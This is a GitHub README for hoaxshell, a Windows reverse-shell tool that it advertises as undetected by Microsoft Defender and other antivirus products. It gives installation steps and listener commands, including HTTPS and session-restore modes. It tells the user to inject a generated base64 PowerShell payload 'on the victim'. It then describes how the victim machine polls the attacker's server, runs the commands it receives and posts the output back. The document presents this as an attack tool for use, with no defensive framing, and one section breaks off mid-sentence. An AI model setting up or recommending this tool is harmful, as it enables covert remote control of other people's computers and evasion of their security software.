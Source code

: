 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-MIT-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and other AV solutions as it is solely based on http(s) traffic. The tool is easy to use, it produces it's own PowerShell base64 encoded or raw payload, it supports session restoration and encryption (ssl).  
  
So far, it has been tested on fully updated Windows 10 Pro and Windows 11 Enterprise boxes (see video and screenshots).
  
### Video Presentation  
https://www.youtube.com/

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/Screenshots/hoaxshell-1.png)
  
Find more screenshots [here](Screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
#### Basic (shell session over http)
```
sudo python3 hoaxshell.py -s <your_ip>
```  
hoaxshell will generate the PowerShell payload automatically base64 encoded for you to copy and inject on the victim. If you need the payload raw, execute the "rawpayload" prompt command. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
The generated PowerShell payload will be longer in length because it includes an additional block of code that disables the ssl certificate validation.

#### Restore session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in restore mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

## Limitations
The shell will die if you submit a command that initiates an interactive 


## How it Works
The attacker issued commands are basically hosted via http/https (python HTTPServer). The generated payload submits the victim's machine into a loop that periodically requests the commands from the attacker's malicious http(s) server, executes them and then sends the output back to the malicious server via POST requests.


